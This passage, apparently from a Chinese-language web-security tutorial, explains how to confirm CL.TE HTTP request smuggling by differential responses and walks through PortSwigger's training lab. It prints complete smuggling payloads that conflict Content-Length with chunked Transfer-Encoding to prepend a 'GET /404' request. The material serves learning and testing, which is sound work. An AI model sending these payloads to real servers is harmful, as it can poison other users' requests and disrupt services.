 该请求通常会收到状态代码为 200 的 HTTP 响应，其中包含一些搜索结果，干扰这个请求所需的攻击请求取决于存在的请求走私的变体:CL.TE vs TE.CL，这里我们以 CL.TE 为例：

```plain
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x
```

如果攻击成功，那么后端服务器会将该请求的最后两行视为接收到的下一个请求，这将导致后续的"正常"请求如下所示，由于这个请求现在包含一个无效的 URL，服务器将用状态代码 404 响应，表明攻击请求确实干扰了：

```plain
GET /404 HTTP/1.1
Foo: xPOST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

下面我们通过一个靶场来介绍具体的 fuzzing：  
靶场地址：[https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-cl-te-via-differential-responses](https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-cl-te-via-differential-responses)  
测试流程：  
Step 1：访问上述靶场地址并点击"ACCESS THELAB"进入靶场

[![](assets/1704418275-1a32c04ec66ffd2d7b85c04e436c2e9f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103154617-2da97c7e-aa0c-1.png)

Step 2：随意抓取一个数据包并构造以下 Fuzzing 请求

```plain
POST / HTTP/1.1
Host: 0ae900850431f4b482522fd000e3007d.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
X-Ignore: X
```

[![](assets/1704418275-05e97ce712b71758f4c8bdedda9eedf0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103154646-3eedd8b8-aa0c-1.png)  
第二个包请求后会给一个 404 响应
